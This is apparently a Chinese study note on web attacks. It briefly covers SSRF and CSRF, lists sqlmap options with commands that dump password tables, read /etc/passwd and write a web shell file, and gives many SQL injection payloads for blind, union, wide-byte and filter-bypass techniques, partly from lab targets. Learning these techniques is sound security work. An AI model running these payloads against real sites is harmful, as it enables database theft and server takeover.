响应码：200、302重定向、404未找到、500服务器错误、403被禁止
SSRF
(Server-Side Request Forgery:服务请求伪造)是一种由攻击者构造，从而让服务端发起请求的一种安全漏洞， 它将一个可以发起网络请求的服务当作跳板来攻击其他服务，SSRF的攻击目标一般是内网。 当服务端提供了从其他服务器获取数据的功能(如:从指定URL地址获取网页文本内容、加载指定地址的图片、下载等)， 但是没有对目标地址做过滤与限制时就会出现SSRF。
1 | 1. 从WEB功能上寻找 |

Csrf
攻击者盗用了你的身份，以你的名义发送恶意请求。
1、登录受信任网站A，并在本地生成Cookie。
2、在不登出A的情况下，访问危险网站B加固方法：
- 改用只接受post数据 、
- 在提交表单进行hash 加密 在服务端进行hash验证 （如果用户Cookie没有被盗取）
一个getshell的js脚本
1 | function getshell |
Sqlmap
-u #注入点
-f #指纹判别数据库类型
-b #获取数据库版本信息
-p #指定可测试的参数(?page=1&id=2 -p “page,id”)
-D “” #指定数据库名
-T “” #指定表名
-C “” #指定字段
-s “” #保存注入过程到一个文件,还可中断，下次恢复在注入(保存：-s “xx.log” 恢复:-s “xx.log” –resume)
–columns #列出字段
–current-user #获取当前用户名称
–current-db #获取当前数据库名称
–users #列数据库所有用户
–passwords #数据库用户所有密码
–privileges #查看用户权限(–privileges -U root)
-U #指定数据库用户
–dbs #列出所有数据库
–tables -D “” #列出指定数据库中的表
-v #**详细的等级**(0-6)
0：只显示Python的回溯，错误和关键消息。
1：显示信息和警告消息。
2：显示调试消息。
3：有效载荷注入。
4：显示HTTP请求。
5：显示HTTP响应头。
6：显示HTTP响应页面的内容
1.读取数据库版本，当前用户，当前数据库
1 | sqlmap -u http://www.91ri.org/ test.php?p=2 -f -b –current-user –current-db -v 1 |
2.判断当前数据库用户权限
1 | sqlmap -u http://www.91ri.org/ test.php?p=2 –privileges -U 用户名 -v 1 |
3.读取所有数据库用户或指定数据库用户的密码
1 | sqlmap -u http://www.91ri.org/ test.php?p=2 –-users –-passwords -v 2 |
4.获取所有数据库
1 | sqlmap -u http://www.91ri.org/ test.php?p=2 –-dbs -v 2 |
5.获取指定数据库中的所有表
1 | sqlmap -u http://www.91ri.org/ test.php?p=2 –-tables -D mysql -v 2 |
6.获取指定数据库名中指定表的字段
1 | sqlmap -u http://www.91ri.org/ test.php?p=2 –-columns -D mysql -T users -v 2 |
7.获取指定数据库名中指定表中指定字段的数据
1 | sqlmap -u http://www.91ri.org/ test.php?p=2 –-dump -D mysql -T users -C “username,password” -s “sqlnmapdb.log” -v 2 |
8.file-read读取web文件
1 | sqlmap -u http://www.91ri.org/ test.php?p=2 –-file-read “/etc/passwd” -v 2 |
9.file-write写入文件到web
1 | sqlmap -u http://www.91ri.org/ test.php?p=2 –-file-write /localhost/mm.php –file-dest /var/www/html/xx.php -v 2 |
被动信息搜集
域名收集
收集其子域名：常用工具和方法，
子域名扫描工具，如：layer、kali下的fierce（首先尝试域传送漏洞，如果不成功再尝试暴力破解）
1、爬虫爬取页面源代码中的子域名 如：burp 带的Spider等。
3、HTTPS 证书搜集、ip反查、
查找其真实ip
验证是否存在**CDN**
· nslookup url ，存在的或返回多个ip相反返回一个ip
· 多地ping
http://ping.aizhan.com/ http://ce.cloud.360.cn/
· 使用各种其他工具 ，直接查询是否使用了CDN
http://www.cdnplanet.com/tools/cdnfinder/ http://www.ipip.net/ip.html
绕过**CDN**
· 查看域名和ip绑定的历史 可能存在CDN 的记录 相关网站
https://dnsdb.io/zh-cn/ https://x.threatbook.cn/ http://toolbar.netcraft.com/site_report?url= http://viewdns.info/
· 查询子域名 毕竟 很多小站点又跟主站在同一台服务器或者同一个C段内，此时就可以通过查询子域名对应的 IP 来辅助查找网站的真实IP
· 利用
SQL注入
判断数据库类型
MSSQL
1 | http://www.mytest.com/showdetail.asp?id=49 ;and (select count(*) from sysobjects)>0 页面正常 |
数据库类型判断，一般asp 的网站大部分是Access或者 SQL server，
Access
判断方法和SqlServer前两个用法一样，不同的是页面都会异常
oracle
1 | ID=1 and '1'||'1'='11 |
--是Oracle和MSSQL支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符：;是子句查询标识符，Oracle不支持多行查询，因此如果返回错误，则说明很可能是Oracle数据库。--是Oracle和MSSQL支持的注释符，如果返回正常，则说明为这两种数据库类型之一- 在注入点后加（必须为注入点）;–（一个分号，两个横线），例如：http://xxxx/article/as.asp?id=1;–。如果返回正常的话，说明数据库是MSSQL，在MSSQL数据库中;和–都是存在的，;用来分离两个语句，而–就是注释符，它后面语句都不执行。如果返回错误，基本可以肯定是ACCESS数据库了。
mysql
1 | id=2 and version()>0返回正常 |
基于bool的盲注
注入方法都需要网页可以显示查询数据的结果，而盲注适合页面不显示任何数据查询结果
这里普及一下盲注时的常用函数
mid()函数mid(striing,start,length)
string(必需)规定要返回其中一部分的字符串。
start(必需)规定开始位置（起始值是 1）。
length(可选)要返回的字符数。如果省略，则 mid() 函数返回剩余文本。
1
2
3select mid(('asdf')from(2)) //输出sdf
select mid(('asdf')from(2)for(1)) //输出 s
select mid(('asdf')from(2)FOR(2) )//输出 sdsubstr()函数
SUBSTR(str FROM pos FOR len)
str(必需)规定要返回其中一部分的字符串。
pos(必需)规定在字符串的何处开始。
len(可选)规定被返回字符串的长度。不选就输出 其后的所有
left()函数
left(string,length)
再怎么解释也不如直接开弄
string(必需)规定要返回其中一部分的字符串
length（可选）规定被返回字符串的前length长度的字符
ascii(a)将a转换成其ASCII值
1
left (database(),1)=2

猜解数据库长度，
1 | id=1 and length(database())>2 %23 以次改变 显示正常时正确 |

猜解数据库名
1 | id=1 and substr(database())>'r' %23 同理判断 |

继续猜解第二个字符
由此可推断第一个字符是s
接下来判断第二个字符：
http://127.0.0.1/sqlilabs/Less-5/?id=1' and left(database(),2)>’sd’%23
‘sd’<’当前数据库名的前两位字符’<’sf’ 所以当前数据库名的第二位字符为’e’。以此类推，最后得到当前数据库名为“security”
猜解表名
先猜解表名长度
1 | id=1' and length((select table_name from information_schema.tables where table_schema='security' limit 0,1))<5 %23 |

确定表明
1 | id=1' and ascii( mid((select table_name from information_schema.tables where table_schema='pikachu' limit 0,1)from(2)for(1)) ) %23 这里进行assii 进行比较 逐个猜解 |
查询表的数量
1 | 1' and (select count(table_name) from information_schema.tables where table_schema='pikachu' )>1 %23 |

查询列的个数
1 | 1' and (select count(column_name) from information_schema.columns where table_name='users')>2 |
在夹逼出列名


正则匹配的盲注 regexp注入

1 | select (select password from users where id = 1)regexp'^e10' |
regexp这个关键字还可以代替where条件里的=号

使用场景过滤了=、in、like
这里的^如果也被过滤了的话，可以使用$来从后往前进行匹配

order by盲注
1、基本注入payload
1 | select * from users where user_id = '1' union select 1,2,'a',4,5,6,7 order by 3 |
首先先看看order by的使用方法：
1 | order by 'number' (asc/desc) |
即对某一列进行排序，默认是升序排列，即后面默认跟上asc，那么上面一句就相当于
1 | select * from users order by 3 asc |
我们在注入时经常会使用order by来判断数据库的列数，那我们这里使用他配合union select来进行注入
2、原理分析
首先正常的注入是蓝色那部分的字符串，这里我们的目的是要注出test用户的user_pass值
接着我们在语句后面加上order by 3，即对第三列进行升序排列(按照ascii码表)
这里的user_pass列中的3是我们union select里面的第三列，这里就把3替换为a
这里可能看不出什么变化，那么把他改成b看看
看到用户test跑到第一行来了，所以这里经常用来判断有返回差异的注入，且返回只有一列的输出，根据差异来判断我们盲注的值是否正确
当然这里也可以使用order by desc降序排列来注入，所以这里要根据使用场景来进行选择
基于时间的盲注
1 | http://10.0.0.21/yanci.php?username=root' and sleep(5)%23 |
或者
1 | http://10.0.0.21/yanci.php?username=root' and sleep(5) and 'xRsl'='xRsl# |
或者
1 | http://10.0.0.21/yanci.php?username=root' and If(ascii(substr(database(),1,1))=114,1,sleep(5))# |
盲注一般用脚本跑
联合查询的注入 （字符型和数字型，搜索型注入）
数字型： SELECT 列 FROM 表 WHERE 数字型列=值
字符型： SELECT 列 FROM 表 WHERE 字符型列=’值’
搜索型： SELECT * FROM 表 WHERE where 被搜索的列 like ‘%值%
字符型常常要考虑到单引号的闭合问题，
输入1’order by 1#，页面正常，然后输入1’order by 2#，依次增加，直到3时出现错误，说明当前表有两列 ‘union select 1,2#
利用内置函数暴出用户名
1 | and 1=2 union select 1,user() |
利用内置函数暴出数据库版本
1 | and 1=2 union select 1,version() |
利用内置函数暴出数据库名称
1 | and 1=2 union select 1,database() |
暴出表名：
1 | and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() |
暴出字段名：
1 | and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x64617461（必须是表名的十六进制表示） |
暴出字段内容：
1 | and 1=2 union select 1, 字段名 from 表名。 |
报出第一个表：
1 | (select table_name from information_schema.tables where table_schema=database() limit 0,1 ) 改变0 即可查看其他表 |
1 | group_concat(select table_name from information_schema.tables where table_schema=database()) |
查询单个表

1 | concat(select table_name from information_schema.tables where table_schema=database()) limit 0,1 |
报出所有表明

1 | name=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 and '%'=' |
搜索型注入 判断
一般都用 like’%%’进行模糊查询
‘and 1=1 and ‘%’=’
%’ and 1=1–’
%’ and 1=1 and ‘%’=’
join注入
payload：：
1 | 1' union select * from (select 1) a join (select 2) b %23 |
优势：过滤了逗号的情况下使用
下面的payload(别的博客处摘抄来的)适用于过滤了逗号和字段名的情况下使用
1 | union all |
带!的注入
直接看下面的payload，适用于and、or、^被过滤的情况下使用，有时候可能也会使用到，但是具体的原理不是很明白，大家可以自行google
宽字节注入
在GBK编码时，mysql会认为两个字符是一个汉字（在前一个字节的ascii码大于128的情况下）。而经过转义之后的单引号’会变为\’，即%5c%27。构造id=1%df%27%23 (id=1%df’ sql %23 )
对于宽字节编码，有一种最好的修补就是：
（1）使用mysql_set_charset(GBK)指定字符集
（2）使用mysql_real_escape_string进行转义
原理是，mysql_real_escape_string与addslashes的不同之处在于其会考虑当前设置的字符集，不会出现前面e5和5c拼接为一个宽字节的问题，但是这个“当前字符集”如何确定呢？
就是使用mysql_set_charset进行指定。
上述的两个条件是“与”运算的关系，少一条都不行。
测试;

输出：

效果很明显。
Tips:
如果我们这里的limit被过滤了咋办？那就试试下面的几种方法：
1 | (1) group_concat(使用的最多) |
总结的注入流程
1、先找到注入点，id=，username=，判断GET/POST/COOKIE注入
2、查看显示位，如果只有一个显示位在使用union注入是注意使用limit来限制显示
3、判断字符型注入还是数字型注入（2-1，’是否正常）
4、输入不同值查看页面是否有变化，无变化的话可以考虑采用bool时间盲注，若有报错信息优先考虑报错注入（exp，updatexml（优先采用updatexml、extractvalue报错））
5、先简单测试空格和注释符是否被替换了，id=1 1，id = 1%231（看看能否用/ /、%20、%0a、%09绕过）
6、进行fuzz，看看那些被waf了
7、若页面上没有显示waf过滤之类的提示（sql injection detected），就测试是否有被替换为空的字符（如：’ or ‘*’=’、’ or ‘-‘=’ ，如果页面返回正常的话，则说明该字符被替换为空）
8、简单尝试双写、编码、大小写替换的方法，判断是否可以绕过
9、确定注入方式（尽量把盲注放最后），union、报错注入、盲注
10、先在bp中跑一遍看是否有结果
11、尝试写脚本
最重要的两步就是注入点并判断出注入类型，找到被过滤的函数和关键字并找到替代的函数和关键字，这就需要我们靠自己的耐心和细心还有经验的积累了
感谢博主 ：https://www.anquanke.com/post/id/160584#h2-11